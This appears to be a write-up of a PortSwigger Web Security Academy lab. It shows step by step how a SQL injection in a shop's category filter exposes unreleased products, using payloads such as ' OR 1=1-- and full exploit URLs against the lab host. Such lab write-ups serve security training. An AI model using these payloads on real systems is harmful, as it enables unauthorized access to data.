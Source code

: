 # 🔍 SQL Injection Lab Walkthrough

## 🏷️ Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

🔗 [Lab Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data)

## 🧠 Objective:

The goal is to exploit a SQL injection vulnerability in the product category filter to **display unreleased products**.

## 🕵️‍♂️ Step-by-Step Discovery

### 1\. **Intercept the Request Using Burp Suite**

  - Open **Burp Suite** and make sure your browser is configured to route traffic through it.
  - Visit the vulnerable URL, for example:
    ```
    https://0af600900457a8bd80613a6b000d00aa.web-security-academy.net/filter?category=Gifts
    ```
  - Use **Proxy \> Intercept** to capture the request before it reaches the server.

### 2\. **Identify Injection Point**

  - The parameter `category` appears to be directly used in a SQL query like:
    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```

### 3\. **Test for SQL Injection**

  - Modify the `category` parameter to inject a single quote `'`:
    ```
    category=Gifts'
    ```
  - Send the modified request and observe the response.
  - If there’s an SQL error (e.g., malformed query or internal server error), it confirms the input is vulnerable.


## 💥 Exploitation – Solving the Lab


### ✅ Goal: Show both released and **unreleased** products.

#### 🧪 Payload Explanation:

You want to bypass the `AND released = 1` condition.

#### Common working payload:

```
category=Gifts' OR 1=1--
```

This changes the query to:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1
```

Because `--` comments out the rest of the line, the effective query becomes:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

Since `1=1` is always true, this returns **all products**, including those where `released = 0`.

## 🛠️ Final Exploit URL:

```
https://0af600900457a8bd80613a6b000d00aa.web-security-academy.net/filter?category=Gifts%27+OR+1=1--
```

> ✅ Replace with your actual lab URL if different.

## 🧩 My Approach (More Targeted)

As we know there is an checkpoint called `released` so set to '1' and '0'

```
category=Gifts' OR released = 1 OR released = 0--
```

Or a more inclusive version:

```
category='%20OR%20released=1%20OR%20released=0--
```

Which translates to:

```sql
SELECT * FROM products WHERE category = '' OR released=1 OR released=0
```

Effectively showing all products regardless of release status.


## 🤝 Community Solutions (Summary)

Here are some common approaches seen from other solvers in forums and write-ups:

| Approach | Description |
|---|---|
| `' OR 1=1--` | Classic payload that bypasses the `WHERE` clause filtering. |


## 🎯 Lab Solved\!

Once you submit the payload and see unreleased products appear in the response, the lab will mark as solved ✅

## ⚠️ Important Note:

Even though these payloads seem harmless, injecting `OR 1=1` into queries could unintentionally affect other parts of the application — especially if the same input is reused elsewhere (e.g., DELETE or UPDATE statements). Always test responsibly\!

---